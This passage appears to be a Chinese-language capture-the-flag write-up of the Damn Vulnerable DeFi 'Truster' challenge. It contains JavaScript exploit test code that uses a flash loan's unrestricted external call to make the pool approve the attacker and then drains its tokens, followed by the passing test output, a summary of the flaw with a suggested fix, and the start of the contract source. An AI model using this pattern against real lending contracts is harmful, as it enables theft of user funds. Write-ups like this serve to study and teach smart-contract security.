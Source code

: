 1. [web3Js](https://web3js.readthedocs.io/en/v1.2.11/web3-eth-abi.html):`web3.eth.abi.encodeFunctionSignature(functionName)` 官方採用這種作法，但是要另外安裝 @openzeppelin/test-helpers

`npm i @openzeppelin/test-helpers`

```jsx
const { web3 } = require('@openzeppelin/test-helpers/src/setup');
it('Exploit', async function () {
    const data = web3.eth.abi.encodeFunctionCall({
        name: 'approve',
        type: 'function',
        inputs: [{
            type: 'address',
            name: 'spender'
        },{
            type: 'uint256',
            name: 'amount'
        }]
    }, [attacker.address, TOKENS_IN_POOL.toString()]);

    await this.pool.flashLoan(0, attacker.address, this.token.address, data)
    await this.token.connect(attacker).transferFrom(this.pool.address, attacker.address, TOKENS_IN_POOL)
});
```

```
$ yarn run truster
  [Challenge] Truster
    ✓ Exploit (62ms)

  1 passing (925ms)

✨  Done in 3.99s.
```

## 🔧 弱點總結 & 修改方式

這題我們運用了 [外部合約呼叫攻擊 Contracts interraction](https://www.notion.so/Contracts-interraction-5ef422648fa34f9d9015bfc5227ef987) ，來讓 pool 把 token 所有權轉讓給我們。所以看到外部呼叫一定要特別小心，因為 call 裡面真的什麼都有可能發生。如果這題要修改的話應該要限制 `target.functionCall(data)` 呼叫的合約不能是 token。

- 弱點:
    1. 對外部合約的呼叫沒有任何限制`target.functionCall(data)`
- 攻擊：1. 讓 pool 呼叫 token ，用 pool 的身份將 token approve 給自己
- 改進：
    1. 限定不能呼叫特定合約

```solidity
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;

import "@openzeppelin/contracts/token/ERC20/IERC20.sol";
import "@openzeppelin/contracts/utils/Address.sol";
import "@openzeppelin/contracts/security/ReentrancyGuard.sol";

/**
 * @title TrusterLenderPool
 * @author Damn Vulnerable DeFi (https://damnvulnerabledefi.xyz)
 */
contract TrusterLenderPool is ReentrancyGuard {
    using Address for address;

    IERC20 public immutable damnValuableToken;

    constructor(address tokenAddress) {
```
